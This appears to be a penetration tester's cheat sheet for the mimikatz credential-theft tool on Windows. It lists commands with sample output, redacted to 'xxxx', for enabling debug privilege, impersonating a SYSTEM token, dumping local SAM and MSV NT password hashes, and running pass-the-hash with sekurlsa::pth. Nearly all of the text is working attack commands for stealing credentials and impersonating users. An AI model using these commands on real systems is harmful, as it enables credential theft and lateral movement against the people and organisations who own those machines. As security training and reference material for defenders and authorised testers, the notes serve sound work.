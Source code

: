 # mimikatz

{% embed url="https://github.com/gentilkiwi/mimikatz" %}

### Resources

1. The Hacker Tools

{% embed url="https://tools.thehacker.recipes/mimikatz" %}

### Basic commands

1. View privilege configurations (?):

`privilege::debug`

* Required to perform actions such as `lsadump::sam` later on

```batch
mimikatz # privilege::debug
Privilege '20' OK
```

2. To impersonate a token:

`token::elevate`

* particularly, a token from `SYSTEM`

{% embed url="https://docs.velociraptor.app/artifact_references/pages/windows.detection.impersonation/" %}

```batch
mimikatza # token::elevate

Token Id  : 0
User name : 
SID name  : NT AUTHORITY\SYSTEM

660     xxxx         NT AUTHORITY\SYSTEM     xxxx       (04g,21p)       Primary
 -> Impersonated !
 * Process Token : xxxx     XXXX     xxxx   (12g,24p)  Primary
 * Thread Token  : {0;000003e7} 1 D 1309519     NT AUTHORITY\SYSTEM     S-1-5-18        (04g,21p)       Impersonation (Delegation)

```

3. Dump the local Security Account Manager (SAM) NT hashes:

`lsadump::sam`

```batch
mimikatz # lsadump::sam
Domain : xxxx
SysKey : xxxx
Local SID : xxxx

SAMKey : xxxx

RID  : xxxx (500)
User : Administrator
  Hash NTLM: xxxx
  
...
```

4. Dumps NT hash by targeting the [MSV1\_0 Authentication Package](https://learn.microsoft.com/en-us/windows/win32/secauthn/msv1-0-authentication-package):

`lsadump::msv`

```batch
mimikatz # lsadump::msv

Authentication Id : 0 ; xxxx (00000000:0004b39c)
Session           : RemoteInteractive from 2 
User Name         : xxxx
Domain            : xxxx
Logon Server      : xxxx
...

        msv :
         [00000003] Primary
         * Username : xxxx
         * Domain   : xxxx
         * NTLM     : xxxx

...
```

5. Revert to original token on mimikatz startup:

`token::revert`&#x20;

```
mimikatz # token::revert
```

6. Performs Pass-the-Hash, Pass-the-Key, Overpass-the-hash:

`sekurlsa::pth`

{% code overflow="wrap" %}
```batch
mimikatz # sekurlsa::pth /user:<username> /domain:<domain> /ntlm:<nt_hash> /run:"<command_to_run>"
```
{% endcode %}

a. `/user` : username to impersonate

b. `/domain` : fully qualified domain name

c. `/ntlm` : NT hash

d. `/run` : command to run

* according to The Hacker Tools (refer link in "Resources" above), it defaults to `cmd.exe`&#x20;

